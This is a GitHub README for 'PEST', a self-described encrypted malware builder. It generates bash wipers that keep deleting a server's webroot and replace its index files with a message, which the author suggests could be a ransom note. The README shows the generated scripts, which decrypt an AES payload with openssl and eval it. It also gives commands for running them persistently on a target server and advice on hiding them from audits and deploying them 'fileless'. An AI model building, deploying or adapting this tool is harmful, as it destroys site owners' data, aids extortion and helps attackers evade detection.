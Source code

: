 # PEST

This is for **educational purposes** only. I bear no responsibility for what you use this for. For this reason, no specific tutorial will be given for how exactly when or where to use this tool.

This is a fire and forget way to keep a webmaster confused.

Using the build tool, you can generate two different types of bash files that will perform differently.

- Loop wiper : Will consistently wipe the webroot and replace the index.php/index.html with a custom message. Runs in an infinite loop.

- Cron wiper : Same as the **loop**, but runs only once as it is intended to be added as a cron job.

And yes, it's an encrypted malware.

# How it works

A developer will get a message on the web root in an `index.php` and `index.html` file. No matter what he/she does, They cannot get rid of those files. They're back after being deleted and no other file can be uploaded. Any file uploaded to the web root also gets deleted almost immediately.

# Usage


First clone the git repo

```bash
$ git clone https://github.com/phrenotype/pest.git
```

Then move into the directory

```bash
$ cd pest
```

As usual, to see usage,

```bash
$ ./pest -h
```
or
```bash
$ ./pest --help
```

To build the final product you need the following

- The webroot path
- A custom message (A ransom message maybe)
- Sleep time in seconds (This **ONLY** for loop wiper). This serves as a delay between each run.

Then you get a copy of **pest** either by cloning this repo or just copying and pasting the code.

Make it executable by running

```bash
$ chmod +x pest
```

To build a **loop wiper**, run:

```bash
$ ./pest -o './.loop_wiper' --type loop --target '/home/test/public_html' --message 'Pwned' --sleep 20
```

A file named **".loop_wiper"** will be created. It's contents will look like this

```bash
#!/usr/bin/env bash
decrypted=$(printf "%s" "W+he7Uqi3ikGjXGzXBePZ+fYDatV1LbrcDr/yIxwDi2DpL/BCFW/E6eqnZwvOFRY
4rK5AAENxiNA04Vl53lX5vPyGS311mf7PtMr8B5s69fmLUWIXtxFB5R2plpssbNK
egc4N0V0ARZBeZiWUMZwMBzCEwED4CUdUXUTK5rkiDrJZDWSzXSN0AfYMCzroLDR
0mM3cWyJGlS1Q7vUCCwSFPBoR1dqmz1bBNu5m0meyzTtgK5Zp+r3oQtBPtrtU3M7
jCMNVADVchN/h/13Qu5p5y+K+b6FyTdeC9WK63geRwxtYwG+fPl+OLJia/v5P1ai
tl30B1kOMC3MVb7uqNlqvadM15AUDqf2he13F7xKVIvPRfjJWXXIBKR06Jb7luNb
XXKiavdZLQ1cSa228BmLq82OO5YMJkIpz3/5mQIc90x6RuXFLUUZKeAg20KMsdak
nHT24WyIYefs/yfSQTX2mPp3apyTpWBSKoqwM2cpKv0g0u2OuR/HXW2eh2qaVZUe
5+5LlogpyYO1tQq021Av3UCITlyP72ntB2N7xyUNTZz2SfZj964gmnxvjyTLUIF3
Fy23Qo0I5KIra0N2gfdvyrWq87FuPaikefZ/R4JwpQOmVQOv6b3kmKazwZsk53Vz
9L+nj5oi6WeKS9PhSZc/afhVVjIFecM5gjjeeH7Vc/IWrGnTm/ysUF/axqgYf3mM
FgQTDUE8W4uqg0mtpJ/3YQ==" | openssl enc -aes-256-cbc -K "15e05fe50a515531dff8ad9cdbcf436f9c58cc42a957deb234e893a1eeeb6a29" -iv "987fe6150619524e9808de0f73e82958" -d -a);
eval "$decrypted";
```


To build a **cron wiper**, run:

```bash
$ ./pest -o './.cron_wiper' --type cron --target '/home/test/public_html' --message 'Pwned'
```

A file named **".cron_wiper"** will be created. It's contents will look like something similar to this  

```bash
#!/usr/bin/env bash
decrypted=$(printf "%s" "jWEooyZX/90ZzRmU5R7cLADvaPnOXfsM3uDcSDy6N5mNbUHxy60P+T3XhnDvC5R0
tc/teiUwRGgYGRnhqpSNfddfvrSwdmolZdpAGxQqUqVtP0VW+BwoCPpwHKbVxkeQ
N34d/kIgrw13dqKd42GW5RZrNpOtC9KXvquM9SOsKM3SvR2BtX6X9gdhUCr5qC+y
NDnIIkuPL6r6gsZsT4dcb3X8kZw60tTodE/ZrkTWfRYpVQiRk7jKxbPBBFcysLef
xSxyi4/06OQaF4ubqdtBEewyjq2xDqnQevECkH3Mh1UBtbZBOewOJ+tDlW7/PY7O
jhA0+7cDfzyk9lJQ6FEiLqoU8MgCwWKBx/BYZ2gsZSpABFBRdcrY0FsosJ8lwrBO
sMn3WFFxh2G+EAdjkq+JOlVwvl+Kq2KovTQ5v2dnKOBYtyf0nfOiceUvQcawPuuy
PIxjRx3ohE9q+6H1y/81H1SKUHhQaFAOPACdFkZqXjOzEzvSdWXLnt8NctA7kHxt
f+qDnwaMmDhTev66WtV8Nv37i19asPWXXInISAdLVScrEiIAodVhnO4Hvddwotbs
TlMBsUP8ydfIkmLq0Auj6bDR9yWPEkcjFGaRVdzU9x8=" | openssl enc -aes-256-cbc -K "b13bb24222c310030f50cd6643b8c9f07b69342318c2e060b95176b644832d39" -iv "372ce7a88dab703e9ad86eb0f802fe49" -d -a);
eval "$decrypted";
```

**NOTE**: The path you pass via --target should be a path that exists on your target server.


## Obfuscation
It is important you obfuscate these generated files by changing the file names, making them dot files and adding useless whitespace and comments at the top of the file to distract during manual audit.

Also note that the cron wiper is discouraged as it raises attention and is quick to spot.

Whenever possible, deploy it in a fileless manner.

## Using the generated files
To run the loop_wiper, upload the generated **.loop_wiper** file to the target server and make it executable by running  

```bash
$ chmod +x .loop_wiper
```

then run the following command on the target server

```bash
$ nohup ./.loop_wiper & disown
```

To run the .cron_wiper, **add it the the list of cron jobs**. Using the cpanel or **crontab** command.

# Finally
And that's it. If you find this page confusing, or you have no idea what's going on, you should not be here at all. I know, it feels frustrating and you feel left out, and that's okay. Go build a website or an app.

# Contact
Email: dev@paulrobert.xyz

Twitter: ![Twitter followers](https://img.shields.io/twitter/follow/phrenotyper?style=social)